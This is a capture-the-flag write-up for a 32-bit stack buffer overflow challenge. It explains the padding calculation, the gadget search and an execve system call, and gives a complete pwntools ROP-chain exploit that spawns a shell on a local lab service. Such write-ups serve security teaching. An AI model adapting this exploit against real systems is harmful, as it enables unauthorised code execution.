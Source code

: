 ## stack

**Category:** Exploit

**Points:** 350

**Solves:** 0

**Description:** We got intel that there is a secret message in the file 'flag.txt' located in the user's home dir

### Write-up

#### environment setup

we were given a binary named `exploit` and ip:port comnination which the binary listens to. since i dont remmber the exact port number, i will just use port 1234 on the localhost in this writeup. the binary was served using socat as follows

```
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:"./exploit"
```
#### vulnerability identification

analyzing the binary in IDA/HexRays showed that `sub_8048B01()` vulnerable to stack buffer overflow, whereby the local variable `v1` that is populated in `sub_80489F4()` is using unsecure `scanf` function (wild guess based on the parameter passed)

![img](img/2018-10-10_15-35.png)
![img](img/2018-10-10_15-37.png)

further analysis on the binary reveals that the `NX` flag was enabled which renders shellcode (`ret2stack`) attack useless. furthermore, the fact that the binary is a stripped static binary makes `ret2libc` attack impossible since we cannot find on libc functions. Thus we can only rely on ropchain attack to execute `/bin/sh` through a system call.

![img](img/2018-10-10_15-39.png)

#### padding calculation

to execute a ropchain attack, we need to overwrite the `saved eip` with our rop gadgets. in order to do that, we need to figure out the exact number of bytes we need to pad from the buffer to the `saved eip`. from the first screenshot, we can see that variable `v1` is `38 (0x26)` bytes away from `ebp`. and since saved eip is located `4` bytes on top of `ebp`, we can deduce that we need to pad `42 (38+4)` bytes of the buffer to reach the `saved eip`. this can be confirmed by providing overflowing cyclic pattern to the buffer and calculating the offset of the value in `eip` at the `SIGSEGV` stop.

![img](img/2018-10-10_15-42.png)

#### linux x86 syscall

now before we move on to the rop chain generation, we need to understand how to make an `execve` system call. basically, we need to call the relevant interrupt (`int 80h`) to make a system call. the `eax` register will hold the system call number and `ebx`,`ecx`,`edx`,`esi`,`edi` and `ebp` will hold the parameters respectively. you can read about it in depth [HERE](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-2.html).

![img](img/2018-10-10_15-43.png)

the system call number for `execve` is `0xb (11)`. based on the above manual,  parameter 1 (`ebx`) will hold the address to the filename to be executed, parameter 2 (`ecx`) will hold the array to the arguments and parameter 3 (`edx`) will hold the array to the environement variables. in our case `ebx` will point to `/bin/sh` address while `ecx` and `edx` will point to null address since we dont need any arguments nor environment variables.

#### writing data

first we need to point `ebx` to `/bin/sh` string. the binary provided does not contain the string needed, thus we need to manually insert it into the binary memory. and since we does not know wether the server enables `aslr` or not, we will also avoid writing the string on the stack. we can find writable memory address using `vmmap` command in gdb

![img](img/2018-10-10_15-45.png)

i had chose to write the string in the heap section as it already populated with null characters which save me the trouble of null truncating the string.

#### ropchain generation

now that we have a writable address, we need to find/chain write-what-where gadget(s) in order to write data to it. finding the gadgets manually was a cumbersome process, so i had use `ropper` to semi-automate the chain generation. note that the data was read using `scanf` into the buffer, so we need to declare a few "bad bytes" (whitespace characters `0x9` - `0xd`) that will cause problem. the command are as follows

![img](img/2018-10-10_15-46.png)

now we need to find a way to control `edx` and `eax`. for `edx`, we can just find `pop edx` instruction to populate data into it. but for `eax` there are no reliable `pop eax` instruction in the binary, so i chose to use `lea eax, [edx]` instead

![img](img/2018-10-10_15-47.png)
![img](img/2018-10-10_15-48.png)

repeat the same process to find other gadgets and prepare other registers needed for a `execve` system call. full exploit code:

```python
from pwn import *

context.terminal = ['urxvtc', '-e', 'sh', '-c']

rop = 'a' * 42

lea_eax_edx = 0x08067e64    # lea eax, dword ptr [edx]; ret;
pop_ecx_ebx = 0x0806ff71    # pop ecx; pop ebx; ret
pop_edx = 0x0806ff4a        # pop edx; ret;
write_addr = 0x080ec000     # writable address
mov_edx_eax = 0x0805594b    # mov dword ptr [edx], eax; ret;
xor_eax = 0x08049693        # xor eax, eax; ret;
inc_eax = 0x0807b52f        # inc eax; ret;
int80 = 0x08070510          # int 0x80; ret;

# mov //bin to writable address
rop += p32(pop_edx)
rop += '//bi'
rop += p32(lea_eax_edx)
rop += p32(pop_edx)
rop += p32(write_addr)
rop += p32(mov_edx_eax)

# append n/sh
rop += p32(pop_edx)
rop += 'n/sh'
rop += p32(lea_eax_edx)
rop += p32(pop_edx)
rop += p32(write_addr + 4)
rop += p32(mov_edx_eax)

# point ecx to null & ebx to //bin/sh
rop += p32(pop_ecx_ebx)
rop += p32(write_addr + 8)
rop += p32(write_addr)

# point edx to null
rop += p32(pop_edx)
rop += p32(write_addr + 8)

# make eax = 11 (execve)
rop += p32(xor_eax)
rop += p32(inc_eax) * 11

# make system call
rop += p32(int80)

# create remote connection
r = remote('127.0.0.1', 12345)

# interact with binary
r.recvuntil("Exit\n: ")
r.sendline("1")
r.recvuntil("Name: ")
r.sendline(rop)
r.recvuntil("Exit\n: ")
r.sendline("3")

# shell time baby!
r.interactive()
```

![img](img/2018-10-10_15-49.png)